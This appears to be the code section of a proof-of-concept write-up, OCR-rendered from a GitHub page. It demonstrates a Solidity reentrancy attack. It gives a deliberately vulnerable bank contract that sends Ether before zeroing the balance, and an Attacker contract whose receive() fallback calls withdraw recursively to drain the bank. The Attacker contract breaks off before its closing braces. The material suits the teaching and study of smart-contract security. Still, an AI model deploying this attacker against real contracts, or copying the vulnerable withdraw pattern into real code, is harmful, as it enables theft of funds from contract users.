 ## PoC Code
Below are the two contracts used in this PoC:

### VulnerableBank.sol
This contract simulates a simple bank that allows deposits and withdrawals but is vulnerable to reentrancy.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableBank {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "No balance to withdraw");

        // Vulnerable: External call before state update
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");

        // State update after external call
        balances[msg.sender] = 0;
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

### Attacker.sol
This contract exploits the reentrancy vulnerability by recursively calling the `withdraw` function.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {
    VulnerableBank public vulnerableBank;
    uint256 public constant WITHDRAW_AMOUNT = 1 ether;

    constructor(address _vulnerableBankAddress) {
        vulnerableBank = VulnerableBank(_vulnerableBankAddress);
    }

    // Initiate the attack
    function attack() external payable {
        require(msg.value >= WITHDRAW_AMOUNT, "Need at least 1 Ether to attack");
        vulnerableBank.deposit{value: WITHDRAW_AMOUNT}();
        vulnerableBank.withdraw();
    }

    // Fallback function to recursively call withdraw
    receive() external payable {
        if (address(vulnerableBank).balance >= WITHDRAW_AMOUNT) {
            vulnerableBank.withdraw();
        }
```